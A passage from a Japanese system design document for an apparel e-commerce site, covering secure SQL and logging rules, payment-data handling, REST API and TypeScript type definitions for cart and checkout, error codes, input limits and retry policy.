| DS-573 | SQL 文を文字列連結により組み立てない |
| DS-574 | プレースホルダによるパラメータバインドを用いる |
| DS-575 | ORM を用いる場合も、生の SQL を記述する箇所には同一の方針を適用する |

**DS-575 について**

ORM を用いれば自動的に安全になるわけではない。ORM が提供する生の SQL 実行機能に
文字列連結で値を渡すと、脆弱性が生じる。また、テーブル名や列名をパラメータとして
渡すことはできないため、動的に指定する場合は許可する値を列挙して検証する。

#### 5.7.3 型定義

| ID | 設計事項 |
|---|---|
| DS-576 | Frontend を TypeScript により実装し、API の要求および応答に型を定義する |
| DS-577 | Backend においても、API の要求に対するスキーマ検証を行う |

型定義は開発時の誤りを検出するものであり、実行時の検証を代替しない。TypeScript の
型はコンパイル時に消去されるため、実行時に不正な値が渡されることを防げない。

具体的な型定義は6章において定める。

### 5.8 決済情報の取扱い

| ID | 設計事項 |
|---|---|
| DS-581 | カード番号、有効期限、セキュリティコードを自社のシステムで受け取らない |
| DS-582 | カード情報の入力を決済代行事業者が提供する仕組みに委ねる |
| DS-583 | 保持するのは決済代行事業者が発行する取引IDおよび支払方法のみとする |

**DS-581、DS-582 について**

カード情報を自社で受け取ると、通過するだけであっても保護の対象となる。決済代行
事業者が提供する入力フォーム、またはトークン化の仕組みを用いることで、自社の
システムをカード情報の経路から外す。

保持しない構成とすることにより、漏えいの対象が存在しない状態を作る（要件定義書
SEC-70）。

### 5.9 ログの出力

#### 5.9.1 方針

要件定義書 SEC-94 において「ログを取得し、一定期間保存する」と定めた。本設計では、
業務上の記録と障害調査のための記録を区別する。

| | 保存先 | 用途 |
|---|---|---|
| 業務上の記録 | DB（order、reservation 等） | 顧客への表示、業務処理 |
| 障害調査のための記録 | アプリケーションログ | 監視、原因の調査 |

#### 5.9.2 出力してよい項目・してはならない項目

| 分類 | 項目 |
|---|---|
| 出力してよい | 会員ID、注文ID、SKU、処理の種別、結果、処理時間、エラーの内容 |
| 出力してはならない | 氏名、住所、電話番号、メールアドレス、パスワード、JWT、session_id、CSRF トークン、カード情報 |

| ID | 設計事項 |
|---|---|
| DS-591 | 個人を直接識別する情報をログに出力しない |
| DS-592 | 認証情報（JWT、session_id、パスワード）をログに出力しない |
| DS-593 | 要求および応答の本文をそのまま出力しない |
| DS-594 | 会員を特定する必要がある場合、会員IDのみを出力する |

**DS-593 の理由**

障害の調査を目的として要求の内容をそのまま出力すると、氏名・住所・電話番号が
ログに残る。ログは開発者が広く参照でき、外部のログ収集サービスへ送信される場合も
ある。

この場合、**個人データが管理外の場所に複製される**ことになる。外部のサービスを
用いる場合は、電気通信事業法の外部送信規律の対象ともなりうる（要件定義書 SEC-30）。

**DS-594 の理由**

会員IDのみでは、ログ単体から個人を識別できない。DB と照合して初めて特定される。
ログの参照権限と DB の参照権限を分離することで、影響を限定できる。

#### 5.9.3 出力する内容

```
2026-09-05T14:23:11+09:00 INFO  member=12345 action=cart.add sku=S001 qty=1 result=success duration=42ms
2026-09-05T14:41:02+09:00 WARN  member=67890 action=stock.reserve sku=S001 result=insufficient
2026-09-05T14:52:33+09:00 ERROR member=12345 action=payment.request order=ORD-0001 error=timeout
```

| ID | 設計事項 |
|---|---|
| DS-595 | ログに時刻、処理の種別、結果を含める |
| DS-596 | 決済および注文の確定について、成否にかかわらず記録する |
| DS-597 | 認可の失敗（DS-545 に該当する要求）を記録する |

DS-597 について。他人の資源への要求は、識別子の推測による試行の可能性がある。
記録することで、事後に検知できる。

### 5.10 依存ライブラリの管理

| ID | 設計事項 |
|---|---|
| DS-5A1 | 使用するライブラリおよびそのバージョンを一覧として管理する |
| DS-5A2 | 既知の脆弱性を検査する仕組みを導入する |
| DS-5A3 | 脆弱性が報告された場合の対応手順を定める |

**DS-5A2 について**

npm audit、GitHub Dependabot 等により、依存関係に既知の脆弱性が含まれるかを検査
する。依存は間接的なものを含むため、直接指定したライブラリのみを確認しても足りない。

### 5.11 その他

#### 5.11.1 API ドキュメントの公開範囲

| ID | 設計事項 |
|---|---|
| DS-5B1 | Swagger UI 等の API ドキュメントを本番環境で公開しない |

エンドポイントの一覧、要求および応答の構造が公開されると、攻撃の対象を特定する
情報を与える。開発環境および検証環境に限定する。

#### 5.11.2 エラー応答

| ID | 設計事項 |
|---|---|
| DS-5B2 | 顧客に返す応答に、システムの内部情報を含めない |

スタックトレース、SQL 文、ファイルのパス、ライブラリのバージョンは、攻撃の手がかり
となる。詳細はログに記録し、顧客には識別子のみを示す。

具体的なエラー応答の形式は7章において定める。

### 5.12 未確定事項

1. JWT の有効期限、およびリフレッシュの方式
2. session_id の有効期間
3. ログの保存期間
4. 脆弱性が報告された場合の対応期限

## 6. API 設計

### 6.1 方針

| 項目 | 内容 |
|---|---|
| 形式 | REST。JSON による要求および応答 |
| 文字コード | UTF-8 |
| 日時 | ISO 8601 形式（例: 2026-09-05T14:23:11+09:00） |
| 金額 | 円単位の整数。小数を用いない |
| 長さ | mm 単位の整数（3.3.8） |

| ID | 設計事項 |
|---|---|
| DS-611 | 金額を整数で扱い、浮動小数点数を用いない |
| DS-612 | 日時をタイムゾーンつきで表現する |

**DS-611 の理由**

浮動小数点数は誤差を生じる。消費税の計算において、1円の差が生じうる。円単位の整数
で扱えば誤差は生じない。

### 6.2 エンドポイント一覧

BFF が公開するエンドポイント（`/api/`）と、Backend が公開するエンドポイントを分けて
記載する。Frontend は BFF のみを参照する。

#### 6.2.1 BFF

| # | メソッド | パス | 概要 | 認証 |
|---|---|---|---|---|
| 1 | GET | /api/products/{productId} | 商品詳細の取得 | 不要 |
| 2 | POST | /api/cart/items | カートへの投入 | 不要 |
| 3 | GET | /api/cart | カートの取得 | 不要 |
| 4 | PATCH | /api/cart/items/{cartItemId} | 数量の変更 | 不要 |
| 5 | DELETE | /api/cart/items/{cartItemId} | 明細の削除 | 不要 |
| 6 | POST | /api/auth/login | ログイン | 不要 |
| 7 | POST | /api/auth/logout | ログアウト | 要 |
| 8 | POST | /api/cart/merge | カートの統合 | 要 |
| 9 | GET | /api/checkout/options | 配送方法の選択肢の取得 | 要 |
| 10 | POST | /api/checkout/delivery | 配送方法の選択 | 要 |
| 11 | POST | /api/checkout/payment | 支払方法の選択 | 要 |
| 12 | GET | /api/checkout/summary | 確認画面の内容の取得 | 要 |
| 13 | POST | /api/orders | 注文の確定 | 要 |
| 14 | GET | /api/orders/{orderNumber} | 注文の取得 | 要 |

「認証: 不要」は、未ログインでも実行できることを意味する。session_id による識別は
行われる。

#### 6.2.2 Backend

BFF が中継する先である。パスは `/api/` を除いた形とする（例: `POST /cart/items`）。
Backend はインターネットから直接到達できない（DS-521）。

| ID | 設計事項 |
|---|---|
| DS-613 | Backend のエンドポイントを BFF のパスと1対1に対応させる |
| DS-614 | BFF において業務上の判断を行わない |

**DS-614 の理由**

BFF に業務ロジックを持たせると、Backend との間で判断が分散する。BFF の責務は認証
情報の保持と中継に限定する（5.2.2）。

### 6.3 共通仕様

#### 6.3.1 要求ヘッダ

| ヘッダ | 必須 | 内容 |
|---|---|---|
| Content-Type | POST/PATCH | application/json |
| X-CSRF-Token | POST/PATCH/DELETE | CSRF トークン（DS-535） |
| Idempotency-Key | POST /api/orders | 冪等キー（DS-457） |

Cookie（JWT、session_id）はブラウザが自動的に付与する。Frontend が明示的に設定
しない。

#### 6.3.2 応答の形式

**成功時**

要求された資源をそのまま返す。ラッパーを設けない。

```json
{
  "cartItemId": 1001,
  "skuId": "360400-09-M",
  "quantity": 1
}
```

**失敗時**

```json
{
  "error": {
    "code": "STOCK_INSUFFICIENT",
    "message": "在庫が不足しています",
    "details": [
      { "skuId": "360400-09-M", "requested": 2, "available": 1 }
    ]
  }
}
```

| ID | 設計事項 |
|---|---|
| DS-615 | エラー応答に、機械が判別できるコードと、顧客に表示する文言を含める |
| DS-616 | エラー応答にシステムの内部情報を含めない（DS-5B2） |

**DS-615 の理由**

message のみでは、Frontend が処理を分岐できない。文言は変更されうるため、判別には
code を用いる。

#### 6.3.3 HTTP ステータスコード

| コード | 用途 |
|---|---|
| 200 OK | 取得、更新の成功 |
| 201 Created | 作成の成功 |
| 202 Accepted | 処理を受け付けたが完了していない（決済の応答待ち） |
| 204 No Content | 削除の成功 |
| 400 Bad Request | 入力値の形式が不正 |
| 401 Unauthorized | 認証されていない |
| 402 Payment Required | 決済の失敗 |
| 404 Not Found | 資源が存在しない、または所有者でない（DS-545） |
| 409 Conflict | 在庫の不足、状態の競合 |
| 422 Unprocessable Entity | 形式は正しいが業務上の条件を満たさない |
| 500 Internal Server Error | サーバー側の異常 |

**400 と 422 の区別**

| | 例 |
|---|---|
| 400 | quantity が文字列である、必須項目が欠けている |
| 422 | 加工方法が未指定で丈のみが指定されている、置き配と代金引換えの組み合わせ |

前者は形式の誤りであり、後者は業務上の制約への違反である。

### 6.4 主要なエンドポイントの定義

#### 6.4.1 POST /api/cart/items（カートへの投入）

**要求**

```typescript
type AddCartItemRequest = {
  skuId: string;              // SKU識別子
  quantity: number;           // 1以上10以下（7.1.1）
  alteration?: {              // すそ上げ。指定しない場合は省略
    type: AlterationType;
    lengthMm: number;         // 仕上がり丈（mm）。5mm刻み
  };
};

type AlterationType = "SINGLE_FOLD" | "DOUBLE_FOLD";
```

**応答（201 Created）**

```typescript
type AddCartItemResponse = {
  cartItemId: number;
  skuId: string;
  quantity: number;
  alteration: {
    type: AlterationType;
    lengthMm: number;
    fee: number;              // 加工料（税抜）
  } | null;
  reservation: {
    expiresAt: string;        // ISO 8601
  };
};
```

**応答（409 Conflict）**

```typescript
type StockInsufficientError = {
  error: {
    code: "STOCK_INSUFFICIENT";
    message: string;
    details: Array<{
      skuId: string;
      requested: number;
      available: number;      // 引当可能数
    }>;
  };
};
```

| ID | 設計事項 |
|---|---|
| DS-621 | 引当の期限（expiresAt）を応答に含める |
| DS-622 | 在庫不足の応答に引当可能数を含める |

**DS-622 について**

引当可能数を示すと、在庫の状況が推測されうる。ただし顧客が数量を調整して再試行
するために必要な情報である。実数ではなく「要求より少ない」ことのみを示す選択も
あるが、①では実数を返す。

#### 6.4.2 GET /api/checkout/options（配送方法の選択肢）

**応答（200 OK）**

```typescript
type CheckoutOptionsResponse = {
  deliveryMethods: Array<{
    code: DeliveryMethod;
    name: string;
    fee: number;              // 送料（税抜）
    available: boolean;
    unavailableReason: string | null;
  }>;
  placementTypes: Array<{     // 置き配の場所
    code: PlacementType;
    name: string;
    isDefault: boolean;
  }>;
};

type DeliveryMethod = "HOME" | "STORE_PICKUP" | "NEKOPOSU";
type PlacementType =
  | "FRONT_DOOR" | "DELIVERY_BOX" | "METER_BOX"
  | "GARAGE" | "BICYCLE_BASKET" | "STORAGE"
  | "RECEPTION" | "NONE";
```

`isDefault` が true となるのは FRONT_DOOR である（要件定義書 FR-562-10）。

#### 6.4.3 POST /api/checkout/delivery（配送方法の選択）

**要求**

```typescript
type SelectDeliveryRequest = {
  deliveryMethod: DeliveryMethod;
  placementType?: PlacementType;   // HOME のときのみ
  recipient: {
    name: string;
    postalCode: string;
    address: string;
    phone: string;
  };
};
```

**応答（200 OK）**

```typescript
type SelectDeliveryResponse = {
  paymentMethods: Array<{
    code: PaymentMethod;
    name: string;
    fee: number;                    // 手数料（税抜）
    available: boolean;
    unavailableReason: {
      code: string;
      message: string;
      causedBy: string;             // 原因となっている選択
    } | null;
  }>;
};

type PaymentMethod =
  | "CREDIT_CARD" | "PAYPAY" | "D_BARAI" | "DEFERRED" | "COD";
```

| ID | 設計事項 |
|---|---|
| DS-623 | 選択できない支払方法について、原因となっている選択（causedBy）を示す |

**DS-623 の理由**

要件定義書 FR-563-12 による。「置き配を指定しているため」のように、現在の選択の
うち何が原因かを特定して示す。条件の列挙に留めると、顧客がどれに該当するかを判断
する必要が生じる。

**応答の例**

```json
{
  "paymentMethods": [
    { "code": "CREDIT_CARD", "name": "クレジットカード", "fee": 0,
      "available": true, "unavailableReason": null },
    { "code": "COD", "name": "代金引換え", "fee": 330,
      "available": false,
      "unavailableReason": {
        "code": "PLACEMENT_SPECIFIED",
        "message": "置き配を指定しているため、代金引換えを使用することができません",
        "causedBy": "placementType"
      }
    }
  ]
}
```

`causedBy` により、Frontend は該当する選択欄への導線を示せる（要件定義書 FR-5A-61）。

#### 6.4.4 GET /api/checkout/summary（確認画面の内容）

**応答（200 OK）**

```typescript
type CheckoutSummaryResponse = {
  items: Array<{
    skuId: string;
    productName: string;
    colorName: string;
    size: string;
    unitPrice: number;
    priceType: "REGULAR" | "MEMBER";
    quantity: number;
    subtotal: number;
    alteration: {
      typeName: string;
      lengthMm: number;
      fee: number;
    } | null;
    isReturnable: boolean;
  }>;
  amounts: {
    subtotal: number;          // 商品合計（税抜）
    alterationFee: number;     // 加工料の合計
    shippingFee: number;       // 送料
    paymentFee: number;        // 支払手数料
    tax: number;               // 消費税
    total: number;             // 総額
  };
  delivery: {
    method: DeliveryMethod;
    methodName: string;
    placementType: PlacementType | null;
    recipient: {
      name: string;
      postalCode: string;
      address: string;
      phone: string;
    };
  };
  payment: {
    method: PaymentMethod;
    methodName: string;
  };
  notices: Array<{
    code: string;
    message: string;
  }>;
  idempotencyKey: string;      // 注文確定時に用いる
};
```

| ID | 設計事項 |
|---|---|
| DS-624 | 金額を項目ごとに返し、総額のみとしない |
| DS-625 | 返品不可の商品を含む場合、notices にその旨を含める |
| DS-626 | 置き配を選択している場合、notices に責任の所在を含める |
| DS-627 | 冪等キーを本応答で発行する |

**notices の例**

```json
{
  "notices": [
    { "code": "ALTERATION_NOT_RETURNABLE",
      "message": "すそ上げ加工をした商品は、交換・返品ができません" },
    { "code": "PLACEMENT_RESPONSIBILITY",
      "message": "置き配を指定した場合、指定場所へのお届け完了後の紛失・盗難について当社は責任を負いません" }
  ]
}
```

DS-625 および DS-626 は、要件定義書 FR-566-02、FR-566-03 による。表示義務を満たす
内容を Backend が判定して返す。Frontend が独自に判定しない。

#### 6.4.5 POST /api/orders（注文の確定）

**要求**

```typescript
type CreateOrderRequest = {
  expectedTotal: number;       // Frontend が算出した総額
};
```

Idempotency-Key ヘッダに、6.4.4 で受け取った冪等キーを設定する。

**応答（201 Created）**

```typescript
type CreateOrderResponse = {
  orderNumber: string;
  orderedAt: string;
  status: "CONFIRMED";
  amounts: {
    subtotal: number;
    alterationFee: number;
    shippingFee: number;
    paymentFee: number;
    tax: number;
    total: number;
  };
};
```

**応答（422：金額の不一致）**

```typescript
type AmountMismatchError = {
  error: {
    code: "AMOUNT_MISMATCH";
    message: string;
  };
};
```

| ID | 設計事項 |
|---|---|
| DS-628 | 要求に Frontend が算出した総額を含め、Backend の算出値と照合する |
| DS-629 | 不一致の場合、正しい金額を応答に含めない |

**DS-628 の理由**

課題として提示された「Backend でも計算のロジックを入れ、Frontend の計算値と照合
する」に対応する（DS-436）。

**DS-629 の理由**

正しい金額を返すと、改ざんの試行に対して手がかりを与える。顧客に対しては、確認画面
を再取得するよう促す。

**応答（202 Accepted：決済の応答が得られない場合）**

```typescript
type OrderPendingResponse = {
  orderNumber: string;
  status: "PENDING_PAYMENT";
  message: string;
};
```

DS-448 〜 DS-451 による。処理中であることを示し、失敗として扱わない。

### 6.5 型定義の共有

| ID | 設計事項 |
|---|---|
| DS-631 | API の型定義を Frontend と Backend で共有する |
| DS-632 | 型定義を OpenAPI として記述し、そこから TypeScript の型を生成する |

**DS-632 の理由**

型定義を Frontend と Backend で個別に記述すると、一方の変更が他方に反映されない。
単一の定義から生成することで、齟齬を防ぐ。

なお、生成された OpenAPI ドキュメント（Swagger UI）を本番環境で公開しない
（DS-5B1）。

### 6.6 未確定事項

1. 商品詳細の取得（GET /api/products/{productId}）の応答の詳細
2. カートの取得（GET /api/cart）の応答の詳細
3. ページネーションの要否（①の範囲では一覧を扱わない）

## 7. エラー処理と入力値の範囲

### 7.1 入力値の範囲

#### 7.1.1 定義

| 項目 | 型 | 下限 | 上限 | 備考 |
|---|---|---|---|---|
| 数量（1明細あたり） | 整数 | 1 | 10 | |
| カートの明細数 | 整数 | 0 | 100 | |
| 仕上がり丈 | 整数（mm） | 400 | 1200 | 5mm刻み |
| メールアドレス | 文字列 | 1 | 255 | RFC 5321 の上限 |
| パスワード | 文字列 | 8 | 128 | |
| 氏名 | 文字列 | 1 | 100 | |
| 郵便番号 | 文字列 | 7 | 8 | ハイフンの有無を許容 |
| 住所 | 文字列 | 1 | 200 | |
| 電話番号 | 文字列 | 10 | 15 | |

#### 7.1.2 数量の上限を10とした理由

| 項目 | 内容 |
|---|---|
| 決めた数字 | 1明細あたり10点 |
| 何と何を天秤にかけたか | 顧客がまとめ買いする機会 と、転売目的の買い占めによる在庫の偏り |
| 動かすと何が悪くなるか | 引き上げる：人気商品が少数の顧客に集中する。引き下げる：家族分をまとめて購入する顧客が複数回の注文を要する |
| 一緒に決まる数字 | カートの明細数の上限、同一顧客の注文回数の制限（①では設けない） |

GUは低価格帯であり、同一SKUを複数点購入する行為は通常の購買として生じる。一方、
品番を絞った計画生産により在庫は有限であり（要件定義書 1.2）、少数の顧客による
買い占めは他の顧客の購買機会を損なう。

**①では明細ごとの上限のみを設ける。** 同一顧客が注文を繰り返すことによる買い占めは
防げないが、その対策は注文回数の制限や本人確認を伴い、①の範囲を超える。

#### 7.1.3 カートの明細数の上限を100とした理由

| 項目 | 内容 |
|---|---|
| 決めた数字 | 100明細 |
| 何と何を天秤にかけたか | 顧客の利便 と、在庫の引当による占有 |
| 動かすと何が悪くなるか | 引き上げる：引当の管理コストが増す。引き下げる：カートで比較検討する顧客の行動を妨げる |
| 一緒に決まる数字 | 引当の保持時間（60分）、1明細あたりの数量の上限（10） |

カートへの投入は在庫の引当を伴う（4.1）。上限を設けない場合、1人の顧客が多数のSKU
を60分間占有しうる。

一方、GUは低価格帯であり、顧客がカートに多数の商品を入れて比較検討する行動が生じ
やすい。上限を低く設定すると、この行動を妨げる。

**本設計では、占有のリスクより顧客の利便を優先する。** 上限を100とする根拠は以下に
よる。

- カートに投入された商品のうち、購入に至るものは一部である。実際に占有される在庫の
  総量は、上限から想定される最大値より小さい
- 明細数を制限しても、1明細あたりの数量が10であるため、特定SKUの買い占めは防げない。
  買い占めへの対策は数量の上限（7.1.2）が担う

明細数の上限は、買い占めの防止ではなく、**引当の管理が破綻しない範囲を定めるもの**
と位置づける。

#### 7.1.4 仕上がり丈の範囲

| 項目 | 内容 |
|---|---|
| 決めた数字 | 400mm 〜 1200mm、5mm刻み |
| 根拠 | 成人向けのボトムスの股下として想定される範囲 |
| 留意点 | 商品ごとに元の丈が異なるため、元の丈を超える指定を許容しない |

| ID | 設計事項 |
|---|---|
| DS-711 | 仕上がり丈が、当該商品の元の丈（product.original_length_mm）を超える場合を不正とする |
| DS-712 | 5mm 刻みでない値を不正とする |

#### 7.1.5 検証の方針

| ID | 設計事項 |
|---|---|
| DS-713 | 上限・下限を Backend で検証する |
| DS-714 | 検証の値を設定として保持し、コードに埋め込まない |
| DS-715 | 文字列について、長さに加えて文字種を検証する |

**DS-715 について**

長さのみを検証すると、制御文字や不可視文字が混入しうる。氏名・住所については、
使用を許容する文字種を定める。

### 7.2 エラーの分類

#### 7.2.1 分類

| 分類 | 例 | 顧客への提示 | ログ |
|---|---|---|---|
| 入力の誤り | 必須項目の欠落、範囲外の値 | 該当項目と内容を示す | 記録しない |
| 業務上の制約 | 在庫不足、選択肢の組み合わせ | 理由と対処を示す | WARN |
| 認証・認可の失敗 | 未ログイン、他人の資源への要求 | 一般的な文言 | WARN |
| 外部サービスの異常 | 決済の失敗、タイムアウト | 状況に応じた文言 | ERROR |
| システムの異常 | 想定外の例外 | 一般的な文言と識別子 | ERROR |

| ID | 設計事項 |
|---|---|
| DS-721 | エラーの分類に応じて、顧客への提示内容とログの水準を定める |
| DS-722 | システムの異常について、顧客に識別子のみを示し、内容を示さない |

**DS-722 の理由**

スタックトレース、SQL 文、ファイルのパスは攻撃の手がかりとなる（DS-5B2）。顧客には
「エラーが発生しました（ID: ERR-20260905-0001）」のように識別子のみを示し、詳細は
ログに記録する。問い合わせを受けた際、識別子により該当のログを特定できる。

#### 7.2.2 エラーコードの一覧

| コード | HTTP | 意味 | 顧客への提示 |
|---|---|---|---|
| VALIDATION_FAILED | 400 | 入力値の形式が不正 | 該当項目を示す |
| SKU_NOT_FOUND | 404 | 指定されたSKUが存在しない | 商品が見つからない旨 |
| STOCK_INSUFFICIENT | 409 | 在庫が不足している | 在庫が不足している旨と、引当可能数 |
| ALTERATION_NOT_AVAILABLE | 422 | 当該商品はすそ上げ不可 | 加工できない旨 |
| ALTERATION_LENGTH_INVALID | 422 | 丈が範囲外または刻みが不正 | 指定可能な範囲 |
| CART_ITEM_LIMIT_EXCEEDED | 422 | カートの明細数が上限を超える | 上限に達している旨 |
| QUANTITY_LIMIT_EXCEEDED | 422 | 数量が上限を超える | 上限の数量 |
| RESERVATION_EXPIRED | 409 | 引当が失効し、在庫も確保できない | 在庫が確保できない旨 |
| PAYMENT_METHOD_UNAVAILABLE | 422 | 支払方法が選択できない | 理由と原因（DS-623） |
| AMOUNT_MISMATCH | 422 | 金額が一致しない | 確認画面の再取得を促す |
| PAYMENT_FAILED | 402 | 決済に失敗した | 支払方法の変更を促す |
| PAYMENT_PENDING | 202 | 決済の結果が確定していない | 処理中である旨 |
| UNAUTHORIZED | 401 | 認証されていない | ログインを促す |
| NOT_FOUND | 404 | 資源が存在しない、または所有者でない | 見つからない旨 |
| INTERNAL_ERROR | 500 | システムの異常 | 識別子のみ |

### 7.3 顧客への提示

#### 7.3.1 方針

| ID | 設計事項 |
|---|---|
| DS-731 | 顧客が次に取るべき行動を示す |
| DS-732 | 原因を推測して示さない |
| DS-733 | 内部の状態を示さない |

**DS-731 について**

「エラーが発生しました」のみでは、顧客は何をすればよいか判断できない。在庫不足で
あれば数量の変更、決済の失敗であれば支払方法の変更、というように対処を示す。

**DS-732 について**

在庫不足の理由を「他の顧客が購入したため」と示さない。事実として確認できるのは
「現時点で引き当てられない」ことのみである（4.1.2）。

#### 7.3.2 提示の例

| 状況 | 提示する文言 |
|---|---|
| 在庫不足 | ご指定の数量の在庫が確保できませんでした。数量を変更してお試しください。 |
| 引当の失効かつ在庫なし | ご選択の商品が売り切れました。 |
| 支払方法が選択不可 | 置き配を指定しているため、代金引換えを使用することができません。 |
| 決済の失敗 | お支払いを完了できませんでした。お支払い方法をご確認ください。 |
| 決済の結果が未確定 | お手続きを承りました。結果が確定次第、ご連絡いたします。 |
| 金額の不一致 | 内容が更新されました。確認画面をお読み直しください。 |
| 認可の失敗 | お探しのページが見つかりません。 |
| システムの異常 | エラーが発生しました。時間をおいてお試しください。（ID: XXX） |

### 7.4 リトライ

#### 7.4.1 顧客による再試行

| 操作 | 再試行の可否 | 備考 |
|---|---|---|
| カート投入 | 可 | 在庫の状況が変わりうる |
| ログイン | 可 | 試行回数の制限を設ける |
| 注文の確定 | 条件つき | 冪等キーにより二重実行を防ぐ（DS-457） |

| ID | 設計事項 |
|---|---|
| DS-741 | ログインの試行回数に上限を設け、超過した場合に一定時間受け付けない |
| DS-742 | 上限に達した旨を、会員の存在有無によらず同一の応答とする |

**DS-742 の理由**

「アカウントがロックされました」と示すと、当該アドレスが会員であることを示すことに
なる（DS-422 と同一の理由）。

#### 7.4.2 システムによる再試行

| 対象 | 方針 |
|---|---|
| PSP への決済の照会 | 再試行する。間隔と回数は【要検討】 |
| 補償処理（在庫の返還） | 再試行する。失敗を記録し、監視の対象とする |
| 引当の解放 | 次回の実行で対象となるため、個別の再試行を要しない |

| ID | 設計事項 |
|---|---|
| DS-743 | 決済の要求を再試行する場合、冪等性を確保する（DS-452） |
| DS-744 | 補償処理の失敗を検知できる仕組みを設ける |

**DS-744 の理由**

補償処理が失敗すると、在庫が確保されたまま注文が成立しない状態が残る。自動的に
回復しないため、検知して手動で対処する必要がある。

### 7.5 未確定事項

1. ログインの試行回数の上限、および受け付けない時間
2. PSP への照会の間隔と回数
3. 許容する文字種の定義（氏名、住所）
4. エラー識別子の形式

## 8. 構造

本章は、これまでの各章で定めた内容を図として整理する。新たな設計判断は含まない。

図の粒度は、構造を説明することを目的とする水準とする。実装の詳細（Controller、
Repository、個別のメソッド）は省略する。

### 8.1 ユースケース図

#### 8.1.1 図



#### 8.1.2 アクター

| アクター | 説明 |
|---|---|
| 顧客 | 会員および未会員。ログインは購入手続きの段階で要求される |
| 決済代行事業者 | 注文の確定時に決済を実行する外部の主体 |

#### 8.1.3 ログインを要するユースケース

| ユースケース | ログイン |
|---|---|
| 商品を見る / SKUを選択する / すそ上げを指定する | 不要 |
| カートに入れる / カートを確認する | 不要 |
| 配送方法を選ぶ / 支払方法を選ぶ | 要 |
| 注文を確定する / 注文を確認する | 要 |

カートへの投入をログインの要件としない設計は、購買の意思が固まる前の段階で会員登録
を求めないためである。ただしこの結果、未ログインのカートと会員のカートを統合する
処理が必要となる（4.2.2）。

#### 8.1.4 2の範囲

②で追加されるユースケースを参考として示す。

| ユースケース | アクター | 段階 |
|---|---|---|
| 店舗の在庫を確認する | 顧客 | ②-b |
| 店舗受取りで注文する | 顧客 | ②-b |
| 実物を確認する | 店舗スタッフ | ②-b |
| バーコードを読み取り会計する | 店舗スタッフ | ②-a |

②では**店舗スタッフというアクターが追加される**。①のアクターは顧客のみである。この
差が、②-a（店舗POS）を②-b の前提とする理由でもある（2.3）。

### 8.2 アクティビティ図

#### 8.2.1 購入フロー全体



#### 8.2.2 注文確定の処理

4.4 のシーケンスを、処理の流れとして示す。



**「応答なし」を「失敗」と区別している点が本図の要点である**（4.4.5）。決済が成立
したか否かが不明な状態で在庫を戻すと、二重に販売されうる。

#### 8.2.3 引当の解放



引当可能数の算出において expires_at を判定するため（3.4.3）、本処理の遅延は販売
機会の損失に直結しない。

### 8.3 クラス図

#### 8.3.1 方針

構造を説明することを目的とし、以下の粒度とする。

| 含める | 含めない |
|---|---|
| 業務上の判断を担うクラス | Controller、Repository |
| 主要なメソッド | すべてのメソッド、getter / setter |
| クラス間の関係 | 実装上の依存 |

**判断を Entity に持たせる方針を採る。**

たとえば「引当が有効か」という判定は `status == ACTIVE かつ expires_at > 現在時刻`
である。この条件は、引当可能数の算出、注文確定時の検証、解放処理の3箇所で必要と
なる。条件をそれぞれの処理に書くと、1箇所の書き漏れにより挙動が食い違う。

Reservation クラスに `isActive()` として持たせることで、条件を1箇所に集約する。

#### 8.3.2 図

